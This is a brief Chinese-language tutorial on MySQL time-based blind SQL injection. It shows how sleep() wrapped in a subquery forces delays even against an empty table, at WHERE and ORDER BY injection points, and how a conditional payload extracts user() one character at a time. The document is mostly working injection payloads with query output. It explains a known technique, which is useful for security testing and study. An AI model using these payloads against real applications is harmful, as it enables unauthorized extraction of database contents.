 

例如测试表：tttt 没有数据

```plain
mysql> select * from tttt;
+----+
| id | 
+----+
|    |
+----+
Empty set (0.00 sec)
```

# 0x02 普通注入测试



```plain
# 可以发现数据并没有发生延迟，因为数据表没有数据

mysql> select * from tttt where id=1 or sleep(5);
Empty set (0.00 sec)

mysql> select * from tttt order by sleep(5);
Empty set (0.00 sec)
```

# 0x03 测试-构造子查询进行注入



```plain
# 例如注入点发生在 where 处 
# 即使 tttt 表没有数据也成功延迟了

mysql> select * from tttt where id=1 and (select 1 from (select sleep(5))x);
Empty set (5.00 sec)
# 例如注入点发生在 order by 处 
# 即使 tttt 表没有数据也成功延迟了

mysql> select * from tttt order by id-(select 1 from (select sleep(5))x);
Empty set (5.00 sec)
```

# 0x04 注入点 order by 处构造子查询延迟注入出 user()

user() = root@localhost

使用方式：select * from tttt ORDER BY id-(select 1 from (select case when (**payload** like 'r%') then 1 else sleep(2) end)x);

```plain
# 对的情况
# 页面会很快的返回数据
# 说明 user() 第1-4位字符为 root

mysql> select * from tttt ORDER BY id-(select 1 from (select case when (user() like 'root%') then 1 else sleep(2) end)x);
Empty set (0.00 sec)
```
